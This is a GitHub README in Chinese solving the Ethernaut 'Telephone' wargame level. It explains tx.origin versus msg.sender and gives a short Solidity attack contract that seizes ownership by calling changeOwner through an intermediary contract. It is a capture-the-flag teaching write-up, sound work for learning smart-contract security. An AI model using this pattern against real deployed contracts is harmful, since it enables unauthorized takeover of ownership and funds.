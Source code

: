 # Ethernaut-Telephone
Ethernaut Telephone關卡的解法

<img width="1594" height="606" alt="image" src="https://github.com/user-attachments/assets/c8f47dff-6320-4732-891b-8e8254acb9b2" />

****這主要是在解釋tx.origin跟msg.sender兩者之間的關係****
tx.origin：永遠是發起這筆交易的外部帳號 (EOA)，無論經過多少層合約呼叫都不變

msg.sender:則是當前這一層函式呼叫的直接呼叫者，A呼叫Ｂ，Ｂ呼叫Ｃ，那Ｂ的msg.sender就是Ａ，Ｃ的msg.sender就是Ｂ

解題思路：
如果要取得Owner，就必須使呼叫changeOwner()的人不能是自己(tx.origin)，所以先部署合約TelephoneAttack，並呼叫attack()，這樣一來呼叫的人就從自己變成部署的合約了，就能通過圖片的if邏輯獲取Owner。


⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇


// SPDX-License-Identifier: MIT 

pragma solidity ^0.8.13;

interface ITelephone {

    function changeOwner(address _owner) external;
    
}


contract TelephoneAttack {

    function attack(address telephone) external {
    
        ITelephone(telephone).changeOwner(msg.sender);
        
    }
    
}



